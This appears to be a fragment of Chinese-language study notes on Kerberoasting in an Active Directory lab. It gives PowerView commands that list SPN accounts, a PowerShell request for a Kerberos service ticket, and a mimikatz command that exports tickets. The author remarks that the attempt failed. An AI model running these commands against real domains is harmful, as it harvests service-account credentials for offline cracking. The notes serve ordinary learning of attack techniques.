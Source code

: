     ```powershell
    Import-Module .\PowerView.ps1
    Get-NetUser -spn | Select name, serviceprincipalname, whencreated, pwdlastset, lastlogon
    ```

    ![image-20240722135625781](Kerberos/image-20240722135625781.png)

2. 请求票据：
    ```powershell
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "mysql/endlessshw2.com:3306"
    # 使用 klist 查看票据是否拿到
    klist
    ```

    自己做的时候一直报错，改用 mimikatz 也报错：
    ![image-20240722135714383](Kerberos/image-20240722135714383.png)
    做不了一点。

3. 用 mimikatz 导出：
    ```bash
    mimikatz # kerberos::list /export
    ```
